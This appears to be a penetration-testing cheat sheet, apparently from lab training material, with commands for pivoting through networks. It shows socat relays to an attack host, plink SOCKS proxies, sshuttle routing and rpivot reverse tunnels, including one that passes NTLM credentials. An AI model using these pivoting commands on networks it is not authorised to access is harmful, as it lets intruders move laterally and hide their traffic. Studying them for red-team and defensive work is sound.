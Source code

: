 ## Tunneling with Socat

Relay traffic using socat.

```bash
# Forward to attack host
socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80

# Forward to target
socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofTarget>:8443
```

## Dynamic Port Forwarding with Plink (Windows)

Set up a SOCKS proxy on Windows.

```bash
# Create SOCKS proxy with plink
plink -D 9050 ubuntu@<IPaddressofTarget>
```

## Routing with SSHuttle

Route traffic through an SSH tunnel.

```bash
# Install sshuttle
sudo apt-get install sshuttle

# Route traffic
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0 -v
```

## Reverse Pivoting with rpivot

Set up reverse pivoting with rpivot.

```bash
# Clone rpivot repository
sudo git clone https://github.com/klsecservices/rpivot.git

# Install Python 2.7
sudo apt-get install python2.7

# Start rpivot server
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

# Transfer rpivot to target
scp -r rpivot ubuntu@<IPaddressOfTarget>

# Run rpivot client
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

# Connect via NTLM proxy
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
